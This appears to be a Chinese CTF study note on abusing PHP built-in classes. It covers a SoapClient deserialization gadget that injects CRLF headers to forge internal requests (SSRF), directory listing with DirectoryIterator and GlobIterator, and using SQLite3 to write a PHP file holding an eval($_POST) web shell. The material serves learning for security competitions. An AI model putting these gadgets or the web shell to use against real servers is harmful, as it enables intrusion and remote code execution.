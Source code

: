 - [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
- # SoapClient
	- 可以向任意url post任意内容
	- 需要打开对应扩展才能使用
	- ```php
	  <?php
	  $s = "123";
	  $l = strlen($s);
	  $a = new SoapClient(
	    null,
	    array(
	        'uri'=>'bbb',
	        'location'=>'http://127.0.0.1:80/flag.php',
	        'user_agent'=>"test\r\nCookie: PHPSESSID=0mrbj32r0ptfcnf7l6kmmgh1c4\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: $l\r\n\r\n$s"
	    )
	  );
	  echo base64_encode(serialize($a));
	  // 利用：$a->notexist();
	  ?>
	  ```
- # Error类:
	- ((62efc5c6-a0d5-4eab-906e-0db03366b1e9))
- # DirectoryIterator
  id:: 6478aaed-922b-471c-b8d6-ec1b0cb0444d
	- 可以读取文件夹
	- ```php
	  $a=new DirectoryIterator("glob:///*");
	  foreach($a as $f){
	  	echo $f.' ';
	  }
	  ```
	- FilesystemIterator与之类似
- # GlobIterator
	- 可以使用glob读取文件夹
	- ```php
	  <?php
	  highlight_file(__file__);
	  $dir = '/*';
	  $a = new GlobIterator($dir);
	  foreach($a as $f){
	      echo($f->__toString().'<br>');
	  }
	  ?>
	  ```
- # SplFileObject
	- 可以读取文件，支持伪协议
	- 例子：[[CTF/WP/GDOUCTF 2023 反方向的钟]]
- # SQLite
	- 可以实现文件创建/写入
	- ```php
	  <?php
	  // 创建或连接数据库
	  $db = new SQLite3('test.php');
	  
	  // 创建新表
	  $query = 'CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY, username TEXT, email TEXT)';
	  $db->exec($query);
	  
	  // 向表中添加数据
	  $query = 'INSERT INTO users (username, email) VALUES (\'TestUser\', \'<?php eval($_POST["data"]);\')';
	  $db->exec($query);
	  
	  // 关闭数据库连接
	  $db->close();
	  
	  ```